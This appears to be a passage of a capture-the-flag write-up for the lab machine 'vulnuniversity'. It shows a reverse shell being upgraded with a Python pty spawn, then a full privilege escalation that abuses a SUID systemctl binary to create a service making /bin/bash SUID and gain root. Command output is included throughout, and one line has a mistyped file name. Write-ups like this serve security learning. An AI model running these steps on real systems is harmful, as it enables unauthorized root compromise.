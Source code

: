 Let's get a proper shell to investigate
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ ^Z                   
zsh: suspended  nc -lvnp 6666
                                                                                                                                         
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 6666

www-data@vulnuniversity:/$      
www-data@vulnuniversity:/$ export TERM=xterm
```

# User flag
We found the user flag in /home/bill/user.txt that is readable by everyone

# Root flag
If we look at the SUID binaries on the machine, we found that there is an interisting binary
```bash
-rwsr-xr-x 1 root root 1387496 Feb 28 12:15 /bin/systemctl
```

We can use it to escalate our privileges with creating a custom service and running it (https://gtfobins.github.io/gtfobins/systemctl/#suid)
```bash
www-data@vulnuniversity:/tmp$ echo "[Service]" >> privesc.service
www-data@vulnuniversity:/tmp$ echo "Type=oneshot" >> privesc.service 
www-data@vulnuniversity:/tmp$ echo "ExecStart=/bin/sh -c 'chmod u+s /bin/bash'" >> privesc.service 
www-data@vulnuniversity:/tmp$ echo "[Install]" >> privesc.service 
www-data@vulnuniversity:/tmp$ echo "WantedBy=multi-user.target" >> privesc.servic
www-data@vulnuniversity:/tmp$ systemctl link /tmp/privesc.service 
Created symlink from /etc/systemd/system/privesc.service to /tmp/privesc.service.
www-data@vulnuniversity:/tmp$ systemctl enable --now /tmp/privesc.service 
Created symlink from /etc/systemd/system/multi-user.target.wants/privesc.service to /tmp/privesc.service.
www-data@vulnuniversity:/tmp$ /bin/bash -p
bash-4.3#
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3#
```
Finally we're root :)
